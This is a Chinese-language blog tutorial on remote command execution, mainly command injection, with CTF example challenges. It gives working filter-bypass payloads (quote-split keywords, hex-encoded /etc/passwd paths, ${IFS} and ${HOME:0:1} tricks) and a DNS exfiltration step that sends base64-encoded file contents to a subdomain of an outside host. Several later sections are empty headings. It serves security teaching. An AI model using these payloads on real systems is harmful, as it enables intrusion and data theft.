+++
author = "Lulaide"
title = "RCE 常见类型及绕过"
date = "2025-03-23"
description = "RCE常见攻击点和利用方法"
tags = [
    "渗透",
    "Linux"
]
categories = ["教程&文档"]
image = "image.png"
+++
# RCE 常见类型及绕过

## 命令注入（Command Injection）
常见命令连接词:
- `;` (分号): 允许您按顺序执行多个命令。
- `&&` (与): 仅当第一个命令成功（返回零退出状态）时执行第二个命令。
- `||` (或): 仅当第一个命令失败（返回非零退出状态）时执行第二个命令。
- `&` (后台执行): 在后台执行命令，允许用户继续使用 shell。
- `|` (管道): 将第一个命令的输出作为第二个命令的输入。
常见 Shell 特殊符号:
- `&` : 
    - 1. 在后台执行命令，允许用户继续使用 shell。
    - 2. 特殊文件描述符，如 `&1` 标准输出。
    - 3. `&&` 仅当第一个命令成功（返回零退出状态）时执行第二个命令。
- `$` : 
    - 1. 变量替换,例如 `echo $HOME`
    - 2. 算术扩展 `echo $((1+2))`
    - 3. 命令替换 `echo $(cat flag)`
    - 4. `${}` 进行高级的参数扩展，如字符串截取、默认值、模式替换等
	提供默认值：`${var:-default}`
	字符串长度：`${#var}`
	子串截取：`${var:offset:length}`

- `` ` `` (反引号): 执行命令并将输出作为结果，例如
```bash
echo `date`
```
> 反引号和`$(cmd)`都能进行命令替换，shell先会执行和反引号内或括号内的命令，再执行外层命令

### cat 绕过(命令绕过)
- 使用 `echo` 读取
```bash
echo $(<filename)
```
- `base64`
```
base64 flag | base64 -d
```

例题

Payload:
```bash
0.0.0.0 && base64 flag_11213284764042.php | base64 -d
```

### 命令关键词绕过
#### 使用符号分割命令
```bash
c"a"t f"la"g
ca""t fl""ag
w\ho\am\i
who$()ami
who$@ami
```
#### 十六进制编码绕过字符过滤
快速转换:
```bash
echo -n "/etc/passwd" | xxd -p | sed 's/../\\x&/g'
``` 
- `echo -e`绕过
```bash
echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
```
示例
```bash
cat $(echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
```
```bash
$(echo -e "\x63\x61\x74") flag
```
- `xxd -r -ps`绕过
```bash
$(xxd -r -ps <(echo 636174)) flag
```

### 斜线绕过
- `${HOME:0:1}`
```bash
cat ${HOME:0:1}etc${HOME:0:1}passwd
```
- `tr` 字符集替换
```bash
echo . | tr '!-0' '"-1'
```
```bash
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```
例题

Payload:
```bash
0.0.0.0 && cat flag_is_here${HOME:0:1}flag_327162425030231.php
```

### 空格绕过
- 使用 `${IFS}`
- 使用 `<` 输入重定向
- 如果能回现报错，就可以使用`$(<filename)`


例题

Payload: 
```bash
0.0.0.0&&cat${IFS}flag_24157125720131.php
```
```bash
0.0.0.0&&cat<flag_24157125720131.php
```


### 综合命令注入练习

先把 `ls` 的结果保存在文件中
```bash
$(ls>1)
```
读取 `ls` 的输出
```bash
$(base64${IFS}1).lulaide.com
```


读取目录下的内容
```bash
$(ls${IFS}fla""g_is_here>1)
$(base64${IFS}1).lulaide.com
```

直接读取 `flag`
```bash
$(base64${IFS}f""lag_is_here${HOME:0:1}fl""ag_123591964811506.php).lulaide.com
```


## 命令行参数注入
命令行的一些概念:
- 选项
通常以短横线（-）或双横线（--）开头，如 -l、--help。
- 参数
不带 - 前缀的字符串，或者也包含在选项中作为参数（例如 -f filename 中的 filename）。
## 代码注入（Code Injection）

## 服务器端模板注入（SSTI）

## 反序列化漏洞

## 文件包含漏洞（LFI/RFI）